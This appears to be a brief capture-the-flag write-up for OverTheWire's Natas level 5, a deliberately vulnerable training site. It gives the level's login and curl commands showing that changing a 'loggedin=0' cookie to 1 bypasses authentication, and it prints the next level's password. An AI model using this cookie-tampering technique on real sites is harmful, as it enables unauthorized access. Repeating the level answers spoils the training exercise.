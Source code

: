 # natas level1
natas is CTF with web application.

## using credential is below.
- User:natas5
- Pass:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

check web site by lynx.
`lynx http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org`

followings is message of this page.
~~~
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
~~~

And I check request and response header, set-cookie has "loggedin=0".
~~~
curl http://natas5.natas.labs.overthewire.org -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --verbose
[response has following]
Set-Cookie: loggedin=0
~~~

I modified this header and request to same url, I got password.
`curl http://natas5.natas.labs.overthewire.org -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -b "loggedin=1" --verbose`

natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1



